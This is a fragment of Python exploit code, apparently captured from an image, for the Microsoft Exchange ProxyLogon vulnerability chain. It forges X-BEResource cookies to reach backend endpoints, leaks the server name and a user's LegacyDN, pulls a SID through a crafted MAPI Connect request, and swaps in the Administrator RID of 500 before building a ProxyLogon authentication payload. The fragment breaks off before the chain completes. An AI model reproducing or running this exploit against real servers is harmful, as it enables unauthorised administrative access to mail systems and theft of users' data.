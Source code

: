 ```python
        ct = requests.get("https://%s/ecp/%s" % (target, random_name), headers={"Cookie": "X-BEResource=localhost~1942062522",
                                                                            "User-Agent": user_agent},
                      verify=False, proxies=proxies)

        if "X-CalculatedBETarget" in ct.headers and "X-FEServer" in ct.headers:
            FQDN = ct.headers["X-FEServer"]
            print("got FQDN:" + FQDN)

        ct = requests.post("https://%s/ecp/%s" % (target, random_name), headers={
            "Cookie": "X-BEResource=%s/autodiscover/autodiscover.xml?a=~1941962757;" % FQDN,
            "Content-Type": "text/xml",
            "User-Agent": user_agent},
            data=autoDiscoverBody,
            proxies=proxies,
            verify=False
        )

        if ct.status_code != 200:
            print(ct.status_code)
            print("Autodiscover Error!")

        if "<LegacyDN>" not in str(ct.content):
            print("Can not get LegacyDN!")
        try:
            legacyDn = str(ct.content).split("<LegacyDN>")[
                1].split(r"</LegacyDN>")[0]
            print("Got DN: " + legacyDn)

            mapi_body = legacyDn + \
                "\x00\x00\x00\x00\x00\xe4\x04\x00\x00\x09\x04\x00\x00\x09\x04\x00\x00\x00\x00\x00\x00"

            ct = requests.post("https://%s/ecp/%s" % (target, random_name), headers={
                "Cookie": "X-BEResource=Administrator@%s:444/mapi/emsmdb?MailboxId=f26bc937-b7b3-4402-b890-96c46713e5d5@exchange.lab&a=~1942062522;" % FQDN,
                "Content-Type": "application/mapi-http",
                "X-Requesttype": "Connect",
                "X-Clientinfo": "{2F94A2BF-A2E6-4CCCC-BF98-B5F22C542226}",
                "X-Clientapplication": "Outlook/15.0.4815.1002",
                "X-Requestid": "{E2EA6C1C-E61B-49E9-9CFB-38184F907552}:123456",
                "User-Agent": user_agent
            },
                data=mapi_body,
                verify=False,
                proxies=proxies
            )
            if ct.status_code != 200 or "act as owner of a UserMailbox" not in str(ct.content):
                print("Mapi Error!")
                exit()

            sid = str(ct.content).split("with SID ")[
                1].split(" and MasterAccountSid")[0]

            print("Got SID: " + sid)
            sid = sid.replace(sid.split("-")[-1], "500")

            proxyLogon_request = """<r at="Negotiate" ln="john"><s>%s</s><s a="7" t="1">S-1-1-0</s><s a="7" t="1">S-1-5-2</s><s a="7" t="1">S-1-5-11</s><s a="7" t="1">S-1-5-15</s><s a="3221225479" t="1">S-1-5-5-0-6948923</s></r>
            """ % sid

```